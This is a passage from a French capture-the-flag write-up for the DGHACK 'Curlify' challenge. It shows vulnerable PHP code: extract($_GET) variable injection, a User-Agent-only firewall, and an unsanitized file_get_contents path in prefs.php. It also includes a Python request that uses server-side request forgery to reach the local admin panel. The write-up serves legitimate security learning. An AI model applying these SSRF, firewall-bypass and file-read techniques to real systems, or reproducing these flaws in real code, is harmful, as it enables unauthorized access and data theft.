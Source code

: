 Et finalement on remarque ceci:

```php
    extract($_GET);
```
La fonction `extract` va importer sous formes de variables chaque élément de l'array `_GET` dans le contexte de `index.php`.
Par exemple l'élément `$_GET['DEFAULT_LANGUAGE']` va être placé dans la variable `$DEFAULT_LANGUAGE`.

![](assets/secret_tool.png)

### firewall.php
Ce script va gérer le pare-feu utilisé dans `index.php`, voilà son fonctionnement:
```php
if (!preg_match("%(^DGHACK/1\.0 \(Curlify\)$)%", $_SERVER["HTTP_USER_AGENT"]))
    die('<div class="notification is-danger">Blocked by WAF !</div>');
```
Le pare-feu se base sur l'`User-Agent` du serveur et si il n'est pas égal à `DGHACK/1.0 (Curlify)`, la requête est abandonnée.

Etant donné que notre requête `GET` peut être transmise par l'intermédiaire du serveur lui-même, si on envoie une requête comme ceci:

```python
    # Envoi d'une requête sur admin_panel/index.php
    USER_AGENT = "DGHACK/1.0 (Curlify)"
    payload = "http://127.0.0.1/admin_panel/"
    url = "http://curlify3.chall.malicecyber.com/index.php"
    rep = session.post(url=url, headers={'User-Agent':USER_AGENT}, data={'url':payload})
```
Notre header `User-Agent`, sera transmis à l'endpoint `admin_panel` par l'intermédiaire de la variable `_SERVER['HTTP_USER_AGENT']`. On est donc bien en mesure de bypass le pare-feu!

### prefs.php

Lorsque l'utilisateur se connecte sur l'`admin_panel` il est possible de spécifier des préférences et notamment le langage à utiliser sur le site une fois connecté, et c'est là la principale vulnérabilité qui va nous permettre de lire le contenu du fichier `flag.php`! Voici pourquoi:
```php
// Dans prefs.php
function get_prefs($user, $prefs, $lang) {
    switch ($prefs) {
        case "fr-FR":
            include(__DIR__."/user_prefs/fr-FR.php");
            break;
        case "en-EN":
            include(__DIR__."/user_prefs/en-EN.php");
            break;
        case "us-US":
            include(__DIR__."/user_prefs/us-US.php");
            break;
        default:
            return file_get_contents(__DIR__."/user_prefs/$lang");
```